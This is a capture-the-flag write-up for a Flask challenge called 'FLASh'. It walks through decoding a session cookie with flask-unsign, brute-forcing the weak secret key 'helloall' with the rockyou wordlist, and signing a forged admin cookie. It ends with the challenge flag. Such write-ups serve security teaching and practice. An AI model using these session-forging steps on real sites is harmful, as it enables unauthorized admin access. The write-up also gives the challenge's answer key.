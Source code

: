# GHCTF-FLASh-challenge

## Challenge Description

**Name:** FLASh

**Points:** 455

**Description:** FLASh FLASh ...f denia Kifou maKech.

**Challenge link:** [FLASh challenge link](http://greenhat.microclub.info:5620/login)

**Goal:** Gain admin access by manipulating the JWT token.

## Tools and Techniques

**Tools:** flask-unsign

**Techniques:**

- Flask cookie decoding and encoding
- Brute-forcing secret key
- Cookie manipulation

## Solution

### Initial Approach

**Step 1:** Inspected the webpage and found a JWT token in the cookies.

**Step 2:** Decoded the JWT token using an online JWT decoder.

Decoded JWT:

```
{

'admin': False,

'username': 'guest'

}
```

**Step 3:** Tried to modify the payload directly and replace the token, but it was rejected by the server due to an invalid signature.

It wasn't a JWT token , it was a flask cookie 

### Detailed Solution

- **Step 1:** Identify the need to brute-force the secret key.
  
  Based on the challenge hint "FLASh", it suggested the use of the Flask framework, which uses a secret key to sign tokens.

- **Step 2:** Install flask-unsign.

  Open Cmd and run:

  ```pip install flask-unsign```

- **Step 3:** Decode the flask cookie using flask-unsign.
  
  Command :

  ```flask-unsign --decode --cookie "eyJhZG1pbiI6ZmFsc2UsInVzZXJuYW1lIjoiZ3Vlc3QifQ.ZqOMzQ.SpPqBdMSQC6ojJADF2OrON3DVbc"```

   Decoded JWT :

  `{'admin': False, 'username': 'guest'}`
  
- **Step 4 :** Download the [rockyou.txt wordlist](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).
  
- **Step 5:** Use flask-unsign to brute-force the cookie using the rockyou.txt wordlist.

  **Initial Attempt to Brute-force the Secret Key:**
  
   Command :

  ```flask-unsign --unsign --wordlist "C:\Users\PC\Desktop\rockyou.txt" --cookie "eyJhZG1pbiI6ZmFsc2UsInVzZXJuYW1lIjoiZ3Vlc3QifQ.ZqOMzQ.SpPqBdMSQC6ojJADF2OrON3DVbc"```

   Result: Encountered an error indicating the need to use the --no-literal-eval argument.

   **Retrying with the Correct Argument:**

   Command : 

   ```flask-unsign --unsign --wordlist "C:\Users\PC\Desktop\rockyou.txt" --cookie "eyJhZG1pbiI6ZmFsc2UsInVzZXJuYW1lIjoiZ3Vlc3QifQ.ZqOMzQ.SpPqBdMSQC6ojJADF2OrON3DVbc" --no-literal-eval```

   This successfully brute-forced the secret key, avoiding the previous error. Secret key : `'helloall'`

- **Step 6:** Create a new token with the admin changed to "True"

   Command :

   ```flask-unsign --sign --cookie "{'admin': True, 'username': 'guest'}" --secret 'helloall'```

   New Token :

   ```eyJhZG1pbiI6dHJ1ZSwidXNlcm5hbWUiOiJndWVzdCJ9.ZqOYOw.6hfVRtWwsvQVfCg8kSkCDxQZkWU```

- **Step 7:** Replace the original token in the browser’s cookies with the new token.
  
- **Step 8:** Reload the webpage to verify admin access.

   Successfully logged in as an admin and obtained the flag.

## The Flag :

# microCTF{54y_H3ll0_0nLy_t0_Y0ur_Fr13nd5_H!h!h4}
  

  

